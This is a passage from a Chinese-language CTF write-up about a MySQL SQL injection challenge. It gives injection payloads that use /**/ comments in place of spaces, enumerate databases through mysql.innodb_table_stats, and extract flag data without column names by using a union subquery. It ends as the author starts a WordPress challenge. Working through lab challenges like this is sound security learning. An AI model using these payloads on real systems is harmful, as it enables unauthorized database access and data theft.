 还好我留了几个功能差不多的

```
sys.schema_table_statistic_with_buffer  (列名与information_schema一样)

sys.x$ps_schema_table_statistics_io

mysql.innodb_table_stats
```

用第三个吧，字数少一些。

构造如下

```
0'union/**/select/**/1,2,group_concat(database_name)/**/from/**/mysql.innodb_table_stats/**/where/**/'1
```

![](./images/image-83.png)

为什么会有三个一样的库？

查了一下资料innodb无法查列名

实在是弄不明白，上答案

```
0'union/**/select/**/1,2,group_concat(`1`)/**/from/**/(select/**/1/**/union/**/select/**/*/**/from/**/ctftraining.flag)a/**/where/**/'1
```

看了一会有些思路

wp里的反引号括起来的1是指的表中名字为‘1’的那一列

括号里的是1联合查询ctftraining.flag里的所有列，并命名为a

flag有可能不在第一列中，所以用通配符\*进行匹配

然后和 select的1组合起来形成一列

头都快炸了。。。

## ohmywordpress

没啥思路，上网搜搜
